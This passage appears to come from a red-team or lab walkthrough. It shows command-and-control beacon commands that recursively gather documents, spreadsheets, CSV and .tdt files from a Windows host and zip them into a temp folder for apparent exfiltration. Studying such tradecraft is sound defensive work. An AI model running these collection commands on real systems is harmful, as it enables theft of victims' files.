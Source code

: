 First we create a new folder through the temp directory `C:\Windows\Temp\` and run this powershell one-liner that will pipe it to `Compress-Archive` to each file extensions we want to archive.
These are the following file extensions based on our enumeration phase: `.doc`, `.docx`, `.docm`, `.xls`, `.xlsx`, `.xlsm`, `.csv`, `.pdf`, and `.tdt`

Good thing about the `Get-ChildItem` (alias `gci`) that the `-Filter` flag matches the strings that starts with the beginning of the characters `-Filter *.doc` so I don't have to repeat it again
due to the context the filters the specific strings so I can move changing `*.doc` to `*.xls`. Talk about basic regular expression 101.

```

beacon> mkdir C:\Windows\Temp\junk
[*] Tasked beacon to make directory C:\Windows\Temp\junk
[+] host called home, sent: 38 bytes

beacon> powershell gci -recurse -path C:\PokerClub -filter *.pdf | compress-archive -destinationpath C:\Windows\Temp\junk\junk-adobe.zip -compressionlevel optimal -force
[*] Tasked beacon to run: gci -recurse -path C:\PokerClub -filter *.pdf | compress-archive -destinationpath C:\Windows\Temp\junk\junk-adobe.zip -compressionlevel optimal -force
[+]host called home, sent: 463 bytes
[+] received output:
..[snip]..

beacon> powershell gci -recurse -path C:\PokerClub -filter *.xls | compress-archive -destinationpath C:\Windows\Temp\junk\junk-spreadsheets.zip -compressionlevel optimal -force
[*] Tasked beacon to run: gci -recurse -path C:\PokerClub -filter *.xls | compress-archive -destinationpath C:\Windows\Temp\junk\junk-spreadsheets.zip -compressionlevel optimal -force
[+] host called home, sent: 483 bytes
[+] received output:
..[snip]..

beacon> powershell gci -recurse -path c:\ -filter *.csv | compress-archive -destinationpath C:\Windows\Temp\junk\csv-files.zip -compressionlevel optimal -force
[*] Tasked beacon to run: gci -recurse -path c:\ -filter *.csv | compress-archive -destinationpath C:\Windows\Temp\junk\csv-files.zip -compressionlevel optimal -force
[+]host called home, sent: 645 bytes
[+] received output:
..[snip]..

beacon> powershell gci -recurse -path c:\ -filter *.tdt | compress-archive -destinationpath C:\Windows\Temp\junk\maintance.zip -compressionlevel optimal -force
[*] Tasked beacon to run: gci -recurse -path c:\ -filter *.tdt | compress-archive -destinationpath C:\Windows\Temp\junk\maintance.zip -compressionlevel optimal -force
[+]host called home, sent: 645 bytes
[+] received output:
..[snip]..
```

Sometimes I recieve errors that either true or false positive from powershell depending on whatever the reason why Windows is
being a bitch so I had include and remove `-Force` so you're gonna have to deal with a bit trial and error and it won't be an issue. So keep that in mind user.
